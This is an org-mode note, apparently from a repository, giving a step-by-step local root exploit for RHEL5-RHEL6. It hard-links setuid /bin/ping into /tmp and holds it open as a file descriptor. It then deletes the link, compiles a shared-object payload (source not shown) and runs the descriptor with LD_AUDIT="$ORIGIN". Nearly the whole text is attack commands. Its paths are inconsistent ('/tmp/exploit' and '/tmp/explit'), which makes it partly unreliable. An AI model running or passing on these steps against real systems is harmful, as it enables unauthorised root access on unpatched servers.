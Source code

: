 #+title: up 2 root privilege by using suid

* zone
RHEL5 - RHEL6

* steps
1. create test user mk
   useradd mk
   passwd mk

2. swap to mk
   su - mk

3. whoami

4. check /tmp
   ls -ld /tmp
   should be "drwxrwxrwt"

5. check /bin/ping
   ls -l /bin/ping
   should be "-rwsr-xr-x"

6. create hard link
   cd /tmp
   mkdir exploit
   ln /bin/ping /tmp/exploit/target

7. run hardlink as fd3
   exec 3< /tmp/exploit/target

8. check process fd3
   ls -l /proc/self/fd/3 
   lr-x------ 1 mk mk 64 Jun  2 23:55 /proc/self/fd/3 -> /tmp/explit/target

9. delete hardlink
   rm -rf /tmp/explit

10. check hardlink
	ls -l /proc/self/fd/3 
	lr-x------ 1 mk mk 64 Jun  2 23:57 /proc/self/fd/3 -> /tmp/explit/target (deleted)

11. check id
	id 

12. compile payload.c
	gcc -w -fPIC -shared -o /tmp/exploit payload.c

13. check
	ls -l /tmp/exploit
	
14. up 2 root privilege
	LD_AUDIT="\$ORIGIN" exec /proc/self/fd/3

